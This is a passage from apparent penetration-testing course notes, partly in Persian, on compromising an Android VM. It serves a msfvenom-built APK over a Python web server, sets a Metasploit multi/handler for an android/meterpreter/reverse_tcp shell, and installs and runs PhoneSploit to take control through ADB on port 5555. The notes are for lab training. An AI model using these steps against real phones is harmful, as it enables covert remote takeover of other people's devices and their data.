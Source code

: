 ```sh
python3 -m http.server
```
2. *Start Multi/Handler Listener*
	1. Same Payload we use in `msfvenom`
	2. `LHOST` is Local IP of Kali(same as IP using in `msfvenom`)
```sh
sudo msfconsole
msf6> use exploit/multi/handler
msf6> set payload android/meterpreter/reverse_tcp
msf6> set LHOST 192.168.10.1
msf6> run
```
	![[Pasted image 20240725195657.png]]
3. *Go to Android Phone on VM*
	1. Open Browser and goto http://KALI-LOCAL-IP:4444 => http://192.168.10.1:4444
	2. Now you can see all files in `home/kali/PhoneExploit` such `file.apk`, Download `file.apk`
		1. ![[Pasted image 20240725195953.png]]
	3. Open `file.apk` and `install` it.
		1. ![[Pasted image 20240725200057.png]]
4. After `file.apk` installed on Android-VM, you Get `Meterpreter Shell` Access in `msfconsole`
	1. ![[Pasted image 20240725200251.png]]
5. Android Phone Hacked Successfully.
### Hacking Android Phone Using `Phonesploit` over `ADB` - E75
#### Definition & Instruction
##### What is Phonesploit Framework?
- از فریم ورک Phonesploit برای نفوذ و گرفتن دسترسی به ماشین های اندرویدی استفاده میشود. 
- این ابزار بصورت پیشفرض با استفاده از ADB بر روی پورت 5555 به ماشین اندرویدی متصل میشود و میتواند کامندهای ADB را بر روی ماشین اندرویدی تارگت اجرا کند.
- بوسیله ADB ماشین های اندرویدی را میتوانیم هک کنیم که بر روی Developer Mode باشند و USB Debugging آنها هم فعال باشد.
- *اسلاید*:
	- ![[Pasted image 20240726161410.png]]
##### Download, Install & Using Phonesploit
- برای نصب فریم ورک باید ابتدا ADB را بر روی ماشین کالی نصب کنیم و سپس Phonesploit را از گیت Clone و سپس Install کنیم. همچنین ای ابزار به زبان پایتون توسعه داده شده است در نتیجه باید `python3, pip3` هم بر روی ماشین کالی نصب باشد.
```sh
sudo apt install adb python3 
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama "Or" python3 -m pip install colorama
Phonesploit.py
```
	![[Pasted image 20240726162307.png]]
- حال میتوانیم فریم ورک را روشن و اجرا کنیم:
```sh
python3 phonesploit.py
```
- برای استفاده از ابزار، کافیست آیپی ماشین اندرویدی را وارد کنیم تا نفوذ ما انجام شود و دسترسی برای ما فراهم شود. پس از وارد کردن آیپی تارگت، میتوانیم هر یک از اکشن هایی که در قسمت بالایی مشاهده میکنیم را بر روی تارگت اندروی اعمال کنیم:
```sh
[ + ] Enter a phone ip address.(type 99 to exit)
phonesploit(connect_phone) > 192.168.20.130
```
	![[Pasted image 20240726162815.png]]
#### Practical Demo
0. *Pre-Requires on Android-VM*
	1. Power ON Android `Menu => Dev Tools => Developer Options => Checked USB Debugging`